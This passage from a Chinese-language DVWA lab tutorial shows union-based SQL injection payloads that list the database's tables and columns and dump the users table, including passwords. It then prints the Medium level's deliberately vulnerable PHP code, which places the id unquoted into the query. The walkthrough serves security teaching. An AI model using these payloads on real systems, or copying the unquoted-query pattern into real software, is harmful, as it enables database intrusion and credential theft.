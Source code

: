 输入 1′ union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() # ，查询成功：

![][21]

说明数据库 dvwa 中一共有两个表，guestbook与users。

### 6.获取表中的字段名 

输入 1′ union select 1,group_concat(column_name) from information_schema.columns where table_name=’users’ # ，查询成功：

![][22]

说明 users 表中有8个字段，分别是user_id,first_name,last_name,user,password,avatar,last_login,failed_login。

### 7.下载数据 

输入 1′ or 1=1 union select group_concat(user_id,first_name,last_name),group_concat(password) from users # ，查询成功：

![][23]

这样就得到了 users 表中所有用户的user_id,first_name,last_name,password的数据。

## Medium 

服务器端核心代码

    <?php   
  
if( isset( $_POST[ 'Submit' ] ) ) {   
    // Get input   
    $id = $_POST[ 'id' ];   
    $id = mysql_real_escape_string( $id );   
  
    // Check database   
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";   
    $result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' );   
  
    // Get results   
    $num = mysql_numrows( $result );   
    $i   = 0;   
    while( $i < $num ) {   
        // Display values   
        $first = mysql_result( $result, $i, "first_name" );   
        $last  = mysql_result( $result, $i, "last_name" );   
  
        // Feedback for end user   
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";   
  
        // Increase loop count   
        $i++;   
    }   
  

[1]: http://www.freebuf.com/articles/web/120747.html
[4]: http://www.dvwa.co.uk/
[5]: http://img0.tuicool.com/6zQRzqu.jpg!web
[6]: http://www.freebuf.com/sectool/102661.html
[7]: http://www.freebuf.com/articles/web/116437.html
[8]: http://www.freebuf.com/articles/web/116714.html
[9]: http://www.freebuf.com/articles/web/118352.html
[10]: http://www.freebuf.com/articles/web/119150.html
[11]: http://www.freebuf.com/articles/web/119467.html
[12]: http://www.freebuf.com/articles/web/119692.html
[13]: http://img0.tuicool.com/7vyYviA.jpg!web
[14]: http://img1.tuicool.com/Q7jmUnj.jpg!web
[15]: http://img1.tuicool.com/NRNJZfn.jpg!web
[16]: http://img1.tuicool.com/rEnq6zV.jpg!web
[17]: http://img0.tuicool.com/fMBZBvB.jpg!web
[18]: http://img2.tuicool.com/J3Ub63q.jpg!web
[19]: http://img2.tuicool.com/jMRVbmJ.jpg!web
[20]: http://img2.tuicool.com/ze6NBji.jpg!web
[21]: http://img1.tuicool.com/jUv2QjR.jpg!web
[22]: http://img0.tuicool.com/iu26faU.jpg!web
[23]: http://img0.tuicool.com/yey6NfF.jpg!web
[24]: http://img2.tuicool.com/yaAryey.jpg!web
[25]: http://img0.tuicool.com/RZBF7v6.jpg!web
[26]: http://img1.tuicool.com/UzEv2mf.jpg!web
[27]: http://img0.tuicool.com/r2I3m2J.jpg!web
[28]: http://img0.tuicool.com/NBjMZbE.jpg!web
[29]: http://img2.tuicool.com/ae2myiR.jpg!web
[30]: http://img0.tuicool.com/MZZNNfm.jpg!web
[31]: http://img1.tuicool.com/vAVfYbe.jpg!web
[32]: http://img2.tuicool.com/fYJzian.jpg!web
[33]: http://img1.tuicool.com/qYBbqij.jpg!web
[34]: http://img0.tuicool.com/VjaUNj6.jpg!web
[35]: http://img0.tuicool.com/uUR3em2.jpg!web
[36]: http://img1.tuicool.com/aaM3Yfv.jpg!web
[37]: http://img2.tuicool.com/YN77VbV.jpg!web